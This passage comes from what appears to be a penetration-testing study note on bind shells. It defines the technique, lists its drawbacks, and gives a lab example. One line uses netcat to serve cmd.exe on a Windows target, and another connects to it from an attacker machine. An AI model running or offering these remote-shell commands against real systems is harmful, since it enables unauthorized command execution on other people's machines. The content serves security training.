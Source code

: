 ### Bind Shells

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

![Bind Shell - geeksforgeeks.org](.gitbook/assets/BindShell-660x309.png)

🗒️ **Bind Shell** - a remote shell where *the attacker connects to the listener running on the target system* and execute commands on the target system.

- *Bind shells issues*:
  - Must have access to the target system
  - Inbound traffic can be blocked by a firewall, it is very suspect

-  A `netcat` listener must be configured on the target system to execute:
  - `cmd.exe` - Windows
  - `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

- Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.2.22.140 1234
```

![Bind Shell - Windows](.gitbook/assets/image-20230423215745094.png)
